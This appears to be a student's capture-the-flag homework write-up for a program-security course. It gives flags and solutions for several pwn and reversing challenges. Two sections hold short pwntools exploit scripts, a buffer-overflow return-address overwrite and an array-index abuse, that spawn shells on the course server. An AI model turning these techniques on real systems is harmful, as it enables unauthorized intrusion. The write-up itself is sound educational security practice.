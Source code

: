 # Program Security Hw00

### HelloWorld

```
Just copy past!!

FLAG{Hello CTF}
```

### Pwn1
```python=
from pwn import *

r = remote('csie.ctf.tw', 10120)

payload = '0123456789012345678901234567890100000000'
+ '\x66\x05\x40\x00\x00\x00\x00\x00'

r.sendline(payload)
r.interactive()
```
```
Get Shell!
$ cd /home/pwn1 && cat flag

FLAG{BuFFer_0V3Rflow_is_too_easy}
```


### BubbleSort
```python=
from pwn import *

payload = '127' + '\n' + '134514048 '
 + '0 ' * 126 + '\n' + '-125\n'

r = remote('csie.ctf.tw', 10121)
r.sendline(payload)
r.interactive()
```
```
Get Shell!!
$ cd /home/BubbleSort && cat flag

FLAG{Bubble_sort_is_too_slow_and_this_question_is_too_easy}
```

### Rev1
```
# Entering gdb console

$ gdb rev1
(gdb) break main
(gdb) r
(gdb) call print_flag()

FLAG{_reverse_is_fun}
```

### Rev2

查詢"Try harder" 在哪邊被使用過
之後找到一連串的xor以及cmp instruction
做Reverse之後得到flag

詳細如下

#### 0x401101
```
loc_401101:             ; uType
push    30h
push    offset Caption  ; lpCaption
push    offset aTryHarder ; "Try harder!"
push    0               ; hWnd
call    ds:MessageBoxA
mov     eax, 1

...

```

![](https://i.imgur.com/O8BPyZW.png)

#### unk_4120BC 
```
    0x8a808d8bb794fcbe93b8a3938fbef8afa79381ffb1 
    
    xor with 0xccccccc...
    
    Get flag FLAG{X0r_to_Cr4ck_M3}
```
    
